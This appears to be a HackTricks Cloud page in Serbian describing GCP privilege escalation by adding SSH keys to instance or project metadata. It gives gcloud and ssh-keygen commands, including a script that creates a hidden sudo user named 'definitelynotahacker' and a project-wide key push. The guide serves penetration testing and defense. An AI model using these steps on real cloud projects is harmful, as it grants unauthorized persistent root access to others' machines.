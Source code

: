 # GCP - Dodavanje prilagođenih SSH metapodataka

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih sigurnosnih rizika ako napadač stekne potrebne dozvole**.

### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ključna komponenta ovoga je [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance radi **ažuriranja ovlašćenih SSH javnih ključeva**.

Stoga, ako napadač može da modifikuje prilagođene metapodatke, može naterati daemon da pronađe novi javni ključ, koji će biti obrađen i **integriran u lokalni sistem**. Ključ će biti dodat u datoteku `~/.ssh/authorized_keys` postojećeg korisnika ili potencijalno kreiranje novog korisnika sa `sudo` privilegijama, zavisno od formata ključa. I napadač će moći da ugrozi host.

### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Pregled postojećih SSH ključeva na Instanci:**
- Izvršite komandu za opis instance i njenih metapodataka kako biste locirali postojeće SSH ključeve. Relevantni deo u izlazu će biti pod `metadata`, posebno ključ `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCA] --zone [ZONA]
```
- Obratite pažnju na format SSH ključeva: korisničko ime ide ispred ključa, razdvojeno dvotačkom.

2. **Priprema tekstualne datoteke za SSH ključ metapodatke:**
- Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualnu datoteku nazvanu `meta.txt`. Ovo je bitno za čuvanje postojećih ključeva dok dodajete nove.

3. **Generisanje novog SSH ključa za ciljanog korisnika (`alice` u ovom primeru):**
- Koristite `ssh-keygen` komandu za generisanje novog SSH ključa, obezbeđujući da polje komentara (`-C`) odgovara ciljnom korisničkom imenu.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Dodajte novi javni ključ u `meta.txt`, oponašajući format koji se nalazi u metapodacima instance.

4. **Ažuriranje metapodataka SSH ključa instance:**
- Primenite ažurirane metapodatke SSH ključa na instanci koristeći `gcloud compute instances add-metadata` komandu.
```bash
gcloud compute instances add-metadata [INSTANCA] --metadata-from-file ssh-keys=meta.txt
```

5. **Pristup Instanci Korišćenjem Novog SSH Ključa:**
- Povežite se sa instancom putem SSH koristeći novi ključ, pristupajući ljusci u kontekstu ciljnog korisnika (`alice` u ovom primeru).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Kreiranje novog privilegovanog korisnika i dodavanje SSH ključa**

Ako nije pronađen nijedan zanimljiv korisnik, moguće je kreirati novog koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti dostupnost SSH pristupa na više virtuelnih mašina (VMs) u cloud okruženju **primenom SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala projektne SSH ključeve. Evo sažetog vodiča:

1. **Primenite SSH ključeve na nivou projekta:**
- Koristite `gcloud compute project-info add-metadata` komandu da dodate SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da se SSH ključevi prepoznaju na svim VMs u projektu, osim ako VM ima omogućenu opciju "Blokiraj projektne SSH ključeve".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH u instance koristeći projektne ključeve:**
- Sa projektim SSH ključevima na mestu, možete se SSH-ovati u bilo koju instancu unutar projekta. Instance koje ne blokiraju projektne ključeve će prihvatiti SSH ključ, omogućavajući pristup.
- Direktan način za SSH u instancu je korišćenje `gcloud compute ssh [INSTANCE]` komande. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta kako bi pokušala pristup.

# Reference
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

